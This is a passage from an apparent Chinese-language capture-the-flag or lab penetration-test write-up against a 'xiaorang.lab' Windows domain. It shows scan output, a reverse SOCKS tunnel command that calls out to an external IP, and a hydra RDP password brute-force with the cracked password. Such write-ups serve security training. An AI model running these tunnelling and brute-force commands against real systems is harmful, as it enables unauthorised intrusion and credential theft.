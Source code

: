 ```plain
172.22.4.7:88 open
[*] alive ports len is: 15
start vulscan
[*] NetInfo 
[*]172.22.4.45
   [->]WIN19
   [->]172.22.4.45
[*] NetInfo 
[*]172.22.4.7
   [->]DC01
   [->]172.22.4.7
[*] NetBios 172.22.4.45     XIAORANG\WIN19                
[*] NetBios 172.22.4.7      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[*] OsInfo 172.22.4.7   (Windows Server 2016 Datacenter 14393)
[*] NetInfo 
[*]172.22.4.19
   [->]FILESERVER
   [->]172.22.4.19
[*] NetBios 172.22.4.19     FILESERVER.xiaorang.lab             Windows Server 2016 Standard 14393
[*] WebTitle http://172.22.4.36        code:200 len:68100  title:中文网页标题
[*] WebTitle http://172.22.4.45        code:200 len:703    title:IIS Windows Server
```

## 代理搭建

[![](assets/1705540441-925c4a8ef667bd9d4bc1960bcba18eb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174628-1eff9d32-b454-1.png)

靶机上执行

```plain
client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

## 攻击域用户一(注册表提权)

搭好代理，直接用hydra进行爆破(刚刚已经获得了用户名)

```plain
proxychains hydra 172.22.4.45 rdp -l Adrian -P rockyou.txt
```

得到密码

```plain
Adrian babygirl1
```

提示
